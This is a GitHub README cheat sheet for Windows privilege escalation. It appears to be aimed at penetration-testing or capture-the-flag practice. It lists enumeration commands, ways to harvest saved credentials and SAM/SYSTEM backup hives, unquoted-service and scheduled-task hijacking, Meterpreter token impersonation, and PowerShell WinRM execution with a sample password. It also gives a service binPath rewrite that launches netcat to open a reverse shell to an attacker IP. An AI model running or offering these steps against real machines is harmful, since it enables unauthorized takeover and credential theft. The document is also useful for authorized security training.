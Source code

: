 # windows-privilege-escalation-cheat-sheet
Updating on a daily base.


Made By J3wker


  ██╗          ██╗██████╗ ██╗    ██╗██╗  ██╗███████╗██████╗      ██╗
 ██╔╝          ██║╚════██╗██║    ██║██║ ██╔╝██╔════╝██╔══██╗     ╚██╗ 
██╔╝█████╗     ██║ █████╔╝██║ █╗ ██║█████╔╝ █████╗  ██████╔╝█████╗╚██╗
╚██╗╚════╝██   ██║ ╚═══██╗██║███╗██║██╔═██╗ ██╔══╝  ██╔══██╗╚════╝██╔╝
 ╚██╗     ╚█████╔╝██████╔╝╚███╔███╔╝██║  ██╗███████╗██║  ██║     ██╔╝ 
  ╚═╝      ╚════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝     ╚═╝ 



BEFORE STARTING !! if system before 2012 - try juciypotato
use `systeminfo` | google the system and update version - look for CVE's and kernel Exploits.
If nothing found start the check list.


Check List:
_____________________

NOTE: List files you saw when you enumerated the web and looked intersering. 
Example:

`secret.php`
`db.php`
`auth.php`

Read them after getting a basic shell - might have creds in them 
if so `net user` try the creds against users - maybe it matches.

Example:
`runas /user:Administrator cmd.exe`
Check running process 
1. `ps`

or in powershell
```
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

remmber PID of weird process
Write it down and use
2. `netstat -ano`
Check for open ports - google that port - what is it ?

see Users
3. `net user`

see specific username information / groups
4. `net user username` - which group is he in ? Logs reader ? read logs - maybe passwords hidden, maybe automatic script the read logs
inject command!, part of "Remote Management Group" ? maybe use WinRM 

5. check Credentials mananger:

`dir C:\Users\username\AppData\Local\Microsoft\Credentials\`
`dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\`
`cmdkey /list` 
if is has keys try:

Domain could be also Hostname or just use username alone
runas /user:DOMAIN\Username /savecred command

if that doesnt work - try Meterpreter `load incognito`- maybe impersonate to a certain user

6. check `Documents` folder 
7. check `Downloads` folder
8. check `Program Files (x86)` folder
9. check `Program Files` folder
10. check `AppData` folder and etc `Local` - `LocalLow` - `Roaming`

Look for werid files and installed programs - look for exploits in them.

______________________________________________________
11. check services with write access - to change binpath

`accesschk.exe -accepteula -uvwc *`

Example:
1. `sc config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.28 9001 -e cmd.exe"`
$ Start a listener on port 9001
2. `sc stop usosvc`
3. `sc start usosvc`
4. get a shell.
______________________________________________________

12. Check for files like .txt / .php - read them.
check for automated scripts that are waiting for scertain files for example:

"Admin is waiting for PDF drop it in C:\Docs" - create a Malicious PDF - drop it

13. Look for backups files `SAM.bak` - `SYSTEM.bak`/ windows image backup.

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

14. What Groups are on the system? 
`net localgroup`

15. Unquoated services ? if so hijack it!

```
wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
```

16. What scheduled tasks are there? Anything custom implemented?

`schtasks /query /fo LIST 2>nul | findstr TaskName`

or in powershell:

`Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State`

17. what is running on startup ?

`wmic startup get caption,command`

18. Permissions on specific folders ?

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
```
NOTE: Change the value of "Everyone" to your desire.
example:

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
```

19. If you have user Creds and WinRM is open try:

NOTE: Change Values `$user`  and `$pw` to match your case.

```
$user = 'SNIPER\Chris'
$pw = '36mEAhz/B8xQ~2VM'
$secpw = ConvertTo-SecureString $pw -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```

Possible to convert into one-liner:

```
$user = 'SNIPER\Chris';$pw = '36mEAhz/B8xQ~2VM';$secpw = ConvertTo-SecureString $pw -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```


and then:

```
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {command}
```

Get command at the user you prompted 








